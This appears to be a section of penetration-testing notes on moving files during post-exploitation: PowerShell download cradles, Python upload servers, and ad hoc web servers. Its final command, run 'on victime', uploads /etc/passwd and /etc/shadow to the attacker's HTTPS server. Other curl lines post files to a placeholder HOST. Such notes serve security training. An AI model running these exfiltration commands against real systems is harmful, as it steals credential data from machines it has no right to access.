 Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their nuances, such as a lack of proxy awareness or touching disk (downloading a file onto the target) to select the appropriate one for the situation.

### Upload files

* [**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)
* [**SimpleHttpServer printing GET and POSTs (also headers)**](https://gist.github.com/carlospolop/209ad4ed0e06dd3ad099e2fd0ed73149)
* Python module [uploadserver](https://pypi.org/project/uploadserver/):

```bash
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver
# With basic auth: 
# python3 -m uploadserver --basic-auth hello:world

# Send a file
curl -X POST http://HOST:8000/upload -F "files=@file.txt" # curl.exe on windows
# With basic auth:
# curl -X POST http://HOST/upload -H -F 'files=@file.txt' -u hello:world

Invoke-FileUpload -Uri http://HOST/upload -File <path>  # powershell
```

**Alternative Web File Transfer Method**
if the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page, . A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server
```bash
# on victime
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000 

# download the file from web server
wget 192.168.49.128:8000/filetotransfer.txt
```
>**Note:** When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.
### **HTTPS Server**
```bash
# on the attacker 
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' # Pwnbox - Create a Self-Signed Certificate
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# on victime
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure # --insecure because we used a self-signed certificate that we trust
```
